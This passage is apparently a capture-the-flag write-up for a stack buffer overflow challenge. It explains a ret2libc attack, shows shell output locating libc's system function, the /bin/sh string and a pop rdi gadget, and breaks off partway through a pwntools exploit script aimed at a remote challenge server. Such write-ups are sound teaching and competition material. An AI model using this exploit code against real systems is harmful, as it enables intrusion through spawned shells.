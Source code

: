 ```
```

The offset for the buffer overflow is 72.
Our next goal is to use the buffer overflow to execute shellcode.
However, because NX is enabled, we can't push shellcode onto the stack.
Instead, we'll need to do a [ret2libc](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/ret2libc).
Basically, we'll use the existing code inside of the C standard library, in this case the `system` and `/bin/sh` string to pop a shell.

Get the base address of libc:

```
root@be175ef608b5:/ctf# ldd ./libc.so.6 
        /lib64/ld-linux-x86-64.so.2 (0x00007ffffffc4000)
```

Get the location of `system`:

```
root@be175ef608b5:/ctf# readelf -s libc.so.6 | grep system
  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
```

Get the location of `/bin/sh`:

```
root@be175ef608b5:/ctf# strings -a -t x libc.so.6 | grep /bin/sh
 1d8678 /bin/sh
```

We also need to find a `pop rdi` gadget so that when `/bin/sh` is popped from the stack, it gets passed to `system`.

```
root@be175ef608b5:/ctf# ROPgadget --binary ./chall | grep 'pop rdi'
...[SNIP]...
0x00000000004012bd : pop rdi ; ret
```

Here's our initial exploit:

```python
from pwn import *

elf = ELF("./chall")
context.binary = elf
p = remote("34.133.69.112",10007)
# p = remote("172.17.0.3",10007)
# p = elf.process()

offset = 72

libc_base = 0x00007fffff598000
system = libc_base + 0x0000000000050d70
binsh = libc_base + 0x1d8678

pop_rdi = 0x4012bd

rop = ROP(elf)
rop.raw(pop_rdi)
rop.raw(binsh)
rop.raw(system)

# payload = flat({
#     offset: [
#         pop_rdi,
#         binsh,
#         system,
#     ]
```